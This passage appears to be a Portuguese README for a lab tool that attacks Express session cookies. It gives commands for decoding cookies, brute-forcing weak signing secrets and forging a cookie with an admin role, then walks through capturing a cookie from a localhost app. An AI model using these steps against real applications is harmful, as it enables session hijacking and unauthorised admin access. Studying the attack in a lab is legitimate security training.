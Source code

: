 ### Decodificação Básica (Node.js)
```bash
# Tornar executável
chmod +x session-decoder.js

# Decodificar com chave conhecida
./session-decoder.js "s:eyJ1c2VyIjp7ImlkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn19.signature" weak-secret-key

# Força bruta automática
./session-decoder.js "s:eyJ1c2VyIjp7ImlkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn19.signature"
```

### Decodificação com Python
```bash
# Força bruta automática
python3 session-decoder.py "s:eyJ1c2VyIjp7ImlkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIn19.signature"

# Com chave específica
python3 session-decoder.py "cookie_value" "weak-secret-key"

# Extrair de requisição HTTP
python3 session-decoder.py --extract "Cookie: connect.sid=s:valor.signature"
```

### Criação de Cookie Falso
```bash
# Node.js
./session-decoder.js --create '{"user":{"id":1,"username":"hacker","role":"admin"}}'

# Python
python3 session-decoder.py --create
```

## 🧪 Teste Prático Completo

### Passo 1: Obter Cookie Legítimo
```bash
# Fazer login e capturar cookie
curl -c /tmp/cookies.txt -X POST \
  -d "username=admin&password=admin123" \
  http://localhost:3000/login

# Extrair apenas o cookie de sessão
grep connect.sid /tmp/cookies.txt | cut -f7
```

### Passo 2: Decodificar Cookie
```bash
# Exemplo com cookie real (substitua pelo valor obtido)
COOKIE="s:eyJwYXNzcG9ydCI6e30sInVzZXIiOnsiaWQiOjEsInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6ImFkbWluMTIzIiwicm9sZSI6ImFkbWluIn19.someSignature"

node session-decoder.js "$COOKIE"
```
